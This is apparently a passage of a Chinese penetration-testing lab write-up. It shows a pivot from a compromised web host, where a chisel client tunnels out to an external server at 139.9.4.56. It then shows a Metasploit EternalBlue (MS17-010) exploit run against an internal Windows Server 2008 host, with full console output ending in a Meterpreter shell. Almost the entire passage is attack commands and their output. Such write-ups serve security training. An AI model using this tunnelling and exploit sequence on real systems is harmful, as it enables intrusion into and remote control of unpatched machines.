 :::warning

怀疑内部靶机不具有出网条件，需要提前建立端口转发

:::

```shell title="入口点 172.22.15.26"
(remote) www-data@ubuntu-web:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.9.4.56:1337 8888:8888 &
[2] 3483
2024/07/26 15:10:45 client: Connecting to ws://139.9.4.56:1337
2024/07/26 15:10:45 client: tun: proxy#8888=>8888: Listening
2024/07/26 15:10:45 client: Connected (Latency 44.294711ms)
```

开始攻击

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[-] Handler failed to bind to 172.22.15.26:8888:-  -
[*] Started reverse TCP handler on 0.0.0.0:8888
[*] 172.22.15.24:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 172.22.15.24:445      - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 172.22.15.24:445      - Scanned 1 of 1 hosts (100% complete)
[+] 172.22.15.24:445 - The target is vulnerable.
......
[*] 172.22.15.24:445 - Connecting to target for exploitation.
[+] 172.22.15.24:445 - Connection established for exploitation.
[+] 172.22.15.24:445 - Target OS selected valid for OS indicated by SMB reply
[*] 172.22.15.24:445 - CORE raw buffer dump (53 bytes)
[*] 172.22.15.24:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 172.22.15.24:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 172.22.15.24:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 172.22.15.24:445 - 0x00000030  61 63 6b 20 31                                   ack 1
[+] 172.22.15.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 172.22.15.24:445 - Trying exploit with 22 Groom Allocations.
[*] 172.22.15.24:445 - Sending all but last fragment of exploit packet
[*] 172.22.15.24:445 - Starting non-paged pool grooming
[+] 172.22.15.24:445 - Sending SMBv2 buffers
[+] 172.22.15.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 172.22.15.24:445 - Sending final SMBv2 buffers.
[*] 172.22.15.24:445 - Sending last fragment of exploit packet!
[*] 172.22.15.24:445 - Receiving response from exploit packet
[+] 172.22.15.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 172.22.15.24:445 - Sending egg to corrupted connection.
[*] 172.22.15.24:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:8888 -> 127.0.0.1:49112) at 2024-07-26 15:15:08 +0800
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > sysinfo
Computer        : XR-WIN08
OS              : Windows Server 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```
